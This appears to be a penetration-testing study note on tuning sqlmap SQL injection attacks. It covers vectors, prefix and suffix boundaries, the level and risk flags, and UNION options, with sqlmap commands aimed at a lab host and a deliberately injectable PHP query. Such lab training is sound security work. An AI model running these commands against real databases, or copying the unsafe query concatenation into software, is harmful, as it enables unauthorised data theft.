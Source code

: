- Each payload consists of: vector and boundaries
	- Vectors: carry the SQL code to be executed at the target (UNION ALL SELECT 1,2 VERSION())
	- Boundaries: prefixes and suffixes used for proper injection of the vector into the vulnerable SQL statement

## Suffixes/Prefixes
- Sometimes we need to add prefixes and suffixes to fine tune the SQL attack vector
```bash
# Enclose everything between the prefix and the suffix
sqlmap -U $URL/?q=test --prefix="%'))" --suffix="-- -"
```

- For example, if we have something like:
```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```
	The vector UNION ALL SELECT 1,2,VERSION(), enclosed by prefix=%')) and suffix=-- -, will result in the following SQL statement:	
```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

### Level/Risk
- --Level ( 1-5, default 1): The higher the lever, the broader the boundaries and vectors, based on the expectancy of success (lower expectancy, higher level)
- --Risk (1-3, default 1): extends the vectors based on the risk causing problem (DOS, database deletion, etc)

### UNION SQLi Tuning
- We can use `--union-cols` to specify the number of columns
- Similarly, we can use `--union-from=$TABLE` to specify the name of table
```bash
sqlmap -u http://157.245.32.216:30308/case7.php?id=1 --batch --dump -D testdb -T flag7 --union-cols=5 --union-from=flag7
```
